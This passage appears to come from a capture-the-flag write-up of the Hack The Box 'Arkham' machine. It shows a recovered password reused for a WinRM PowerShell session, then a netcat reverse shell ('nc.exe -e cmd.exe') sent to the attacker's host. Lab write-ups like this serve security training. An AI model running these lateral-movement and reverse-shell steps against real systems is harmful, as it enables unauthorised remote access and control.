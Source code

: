 The email contains a reference to Batman's password, which is in the attached image.

```
<p class=MsoNormal>Master Wayne stop forgetting your password<o:p></o:p></p>
```

The attachment contains a screenshot with Batman's password:

![](/assets/images/htb-writeup-arkham/batman.png)

Password: `Zx^#QZX+T!123`

Using WinRM I can start a powershell session as `batman`.

```
C:\Users\Alfred>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
PS C:\Users\Alfred> $username = 'batman'
PS C:\Users\Alfred> $password = 'Zx^#QZX+T!123'
PS C:\Users\Alfred> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
PS C:\Users\Alfred> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
PS C:\Users\Alfred> enter-pssession -computername arkham -credential $credential
[arkham]: PS C:\Users\Batman\Documents>
```

Something's wrong though, I can't change directories or see error messages:

```
[arkham]: PS C:\Users\Batman\Documents> cd ..
[arkham]: PS C:\Users\Batman\Documents> whoami
arkham\batman
[arkham]: PS C:\Users\Batman\Documents> cd \users\administrator\desktop
```

So what I did was spawn another netcat as `batman`

```
[arkham]: PS C:\Users\Batman\Documents> c:\programdata\nc.exe -e cmd.exe 10.10.14.23 6666

# nc -lvnp 6666
listening on [any] 6666 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.130] 49695
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Batman\Documents>whoami
arkham\batman
```

